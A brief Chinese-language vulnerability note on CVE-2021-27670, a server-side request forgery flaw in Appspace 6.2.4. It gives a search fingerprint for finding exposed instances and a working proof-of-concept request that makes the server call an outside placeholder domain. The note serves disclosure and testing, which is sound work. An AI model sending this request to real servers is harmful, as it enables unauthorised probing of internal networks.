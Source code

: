 # 

# Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

```
Appspace 6.2.4
```

## 网络测绘

```
"Sign-in-to-Appspace-Core"
```

## 漏洞复现

登录页面为

![image-20220524140826821](./images/202205241408911.png)

验证POC

```
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://db0bx.2lfmar.yourdomain.xyz
```

![image-20220524141221709](./images/202205241412770.png)
